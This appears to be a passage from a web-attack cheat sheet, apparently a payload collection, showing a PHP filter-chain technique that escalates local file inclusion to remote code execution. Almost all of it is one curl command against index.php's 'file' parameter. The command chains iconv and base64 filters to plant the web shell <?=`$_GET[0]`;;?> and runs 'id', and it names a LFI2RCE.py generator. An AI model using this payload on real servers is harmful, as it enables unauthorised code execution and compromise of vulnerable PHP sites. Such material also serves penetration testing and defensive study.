* [LFI2RCE.py](./LFI2RCE.py) to generate a custom payload.
  ```powershell
  # vulnerable file: index.php
  # vulnerable parameter: file
  # executed command: id
  # executed PHP code: <?=`$_GET[0]`;;?>
  curl "127.0.0.1:8000/index.php?0=id&file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=/etc/passwd"
  ```

